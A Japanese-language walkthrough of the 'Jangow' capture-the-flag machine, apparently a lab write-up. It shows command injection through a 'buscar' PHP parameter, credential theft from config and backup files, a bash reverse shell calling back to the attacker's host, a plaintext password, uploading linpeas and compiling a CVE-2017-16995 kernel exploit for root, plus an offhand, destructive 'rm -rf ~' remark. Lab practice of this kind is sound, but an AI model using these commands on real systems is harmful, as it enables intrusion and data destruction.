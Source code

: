 ## Jangow

### 目的
- user.txt <- システム内
- root.txt <- root

### ポートスキャンまで同じ
- 21,80
  - 22番ポートはcloseなので注意 

### webサイトを見る
- 色々なサイトを見て、リンクのパスにbuscarという気になるのがある
- サイトのコメントを見る

### buscarのサイトを見る
- `~.php?buscar=`これはコマンドが実行できるんではないか？実際、buscarでコマンドを実行できる
- `view-source:http://192.168.56.118/site/busque.php?buscar=ls -la`
- wordpressという気になるディレクトリがある
- `view-source:http://192.168.56.118/site/busque.php?buscar=ls wordpress -la`
- `view-source:http://192.168.56.118/site/busque.php?buscar=cat wordpress/config.php`
- パスワードとユーザ名がある

### ftpに接続する
- 取得したユーザとパスワードで接続するが失敗する

### パスワードの取得
- さらにサイトを巡回する、そこでまたユーザ名やパスワードをがある。webブラウザでもできるが、ここではコマンドで表示する
- `curl http://$IP/site/busque.php --get --data-urlencode "buscar=cat /var/www/html/.backup"`

### ftpに接続する
- 取得したユーザとパスワードで接続する
- サーバ内を探索する
- `bye`で抜ける


### bashのリバースシェルの確立
- ターミナルを開く
  - `nc -lvnp 443`

- 他のターミナルを開く
  - `curl http://jangow.local/site/busque.php --get --data-urlencode "buscar=/bin/bash -c 'bash -i >& /dev/tcp/ParrotOSのIP/443 0>&1'"`
  - ちなみに`rm -rf ~`のリバースシェルでもできる

- ここでプロンプトが返ってくる

### TTYシェルの奪取

- `python3 -c 'import pty; pty.spawn("/bin/bash")'` 
- `su jangow01`
- パスワードの入力 `abygurl69`この`l`は`L`の小文字

### システムの探索
- ユーザホームでフラグを探す
 

### Linpeasを転送する
- ParrotOS側のターミナルで実行する
- `ftp $IP`
- ユーザ名がjangow01,パスワード
- `cd /home/jangow01`
- `put linpeas.sh`
- `ls`
- `bye`

### Linpeasで脆弱性を探す
- jangowのユーザで実行する
- `ls -la linpeas.sh`
- `chmod +x linpeas.sh`
- ./linpeas.sh > output
- Linpeasの表示にCVE-2017-16995があるのでネットで検索して、exploitをコードをコピーする

### Exploitを転送
- ParrotOSの新しいターミナルでする
- ParrotOS側
  - jangowのディレクトリでする 
  - `cat > 45010.c`さっきコピーしたのをペーストする
- `ftp $IP`
- `cd /home/jangow01`
- `put 45010.c`
- `bye`

### Exploitを実行
- リモートシェル先のjangowユーザでする
- `gcc 45010.c -o exploit`
- ./exploit  
- ルートが返ってくる

### フラグファイルを開く
- `id`
- `cd /root`
- `cat proof.txt`
